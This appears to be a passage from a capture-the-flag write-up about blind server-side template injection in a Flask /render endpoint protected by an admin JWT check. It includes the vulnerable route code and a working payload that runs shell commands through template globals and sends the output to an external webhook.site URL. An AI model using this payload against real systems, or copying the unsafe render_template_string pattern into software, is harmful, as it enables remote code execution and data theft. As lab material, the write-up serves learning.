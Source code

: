 ![image](https://hackmd.io/_uploads/H1tn09oe1g.png)



```python
@app.route('/render', methods=['POST'])
def dynamic_template():
    token = request.cookies.get('jwt_token')
    if token:
        try:
            decoded = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
            role = decoded.get('role')

            if role != "admin":
                return jsonify(message="Admin only"), 403

            data = request.get_json()
            template = data.get("template")
            rendered_template = render_template_string(template)
            
            return jsonify(message="Done")

        except jwt.ExpiredSignatureError:
            return jsonify(message="Token has expired."), 401
        except jwt.InvalidTokenError:
            return jsonify(message="Invalid JWT."), 401
        except Exception as e:
            return jsonify(message=str(e)), 500
    else:
        return jsonify(message="Where is your token?"), 401

```

* The /render endpoint is accessible only to users with the role "admin".
* It accepts a template parameter and uses render_template_string(template) to render it.
* The rendered output isn't directly returned, but exceptions (errors) include messages that can be manipulated.

=> Blind SSTI => To view the command output we can create a webhook and send that to this endpoint 

```json!
{
  "template": "{{ url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('https://webhook.site/0139531b-9559-42d0-a71a-b43e039822c2/?flag=' + url_for.__globals__['os'].popen('ls').read()) }}"
}

```
![image](https://hackmd.io/_uploads/BJ0d1iieyl.png)

The payload running the `ls` command returns an error because the output contains control characters -> we can see the name of the flag file is `gnp6kw338gg6`

Now simply run the command `cat gnp6kw338gg6`

